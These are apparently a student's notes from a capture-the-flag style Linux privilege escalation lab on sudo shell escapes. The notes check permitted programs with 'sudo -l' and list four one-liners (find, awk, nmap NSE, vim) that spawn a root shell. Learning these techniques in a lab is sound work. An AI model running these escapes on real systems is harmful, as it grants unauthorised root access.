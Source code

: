 **Detection**﻿

Linux VM

1. In command prompt type: **sudo -l**

![[Pasted image 20240601213315.png]]


2. From the output, notice the list of programs that can run via sudo.

**Exploitation**

Linux VM

1. In command prompt type any of the following:

a. 
```
sudo find /bin -name nano -exec /bin/sh \;
```

![[Pasted image 20240601213550.png]]

b. 
```
sudo awk 'BEGIN {system("/bin/sh")}'
```

![[Pasted image 20240601213614.png]]

c. 
```
echo "os.execute('/bin/sh')" > shell.nse && sudo nmap --script=shell.nse
```

![[Pasted image 20240601213634.png]]

d. 
```
sudo vim -c '!sh'
```

![[Pasted image 20240601213654.png]]


Answer the questions below

Click 'Completed' once you have successfully elevated the machine
